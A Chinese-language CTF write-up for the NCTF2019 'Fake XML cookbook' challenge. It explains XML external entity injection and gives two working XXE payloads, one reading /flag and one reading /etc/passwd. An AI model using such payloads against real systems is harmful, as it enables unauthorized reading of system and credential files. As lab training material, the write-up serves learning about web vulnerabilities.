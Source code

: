 

## [NCTF2019]Fake XML cookbook

###### xml外部实体注入

**XXE漏洞全称XML External Entity Injection 即XML外部实体注入。**

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害。

XXE漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

**XXE常见利用方式**

与SQL相似，XXE漏洞也分为有回显和无回显

有回显，可以直接在页面中看到payload的执行结果或现象。

无回显，又称为blind xxe，可以使用外带数据(OOB)通道提取数据。即可以引用远程服务器上的XML文件读取文件。

解析xml在php库libxml，libxml>=2.9.0的版本中没有XXE漏洞。



做题思路：

构造下列实体可以读取根目录下的flag：

```xml
<?xml version = "1.0" encoding = "utf-8"?>
<!DOCTYPE test [
    <!ENTITY admin SYSTEM "file:///flag">
]>

<user><username>&admin;</username><password>123456</password></user>
```

构造实体，注意&admin;

![image-20231120152223677](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231120152223677.png)

中间记得空行：

///etc/passwd可以读取系统用户配置文件（系统中所有用户的基本信息）

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///etc/passwd">
  ]>

<user><username>&admin;</username><password>123456</password></user>
```

![image-20231120152742427](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231120152742427.png)



## [GWCTF 2019]我有一个数据库
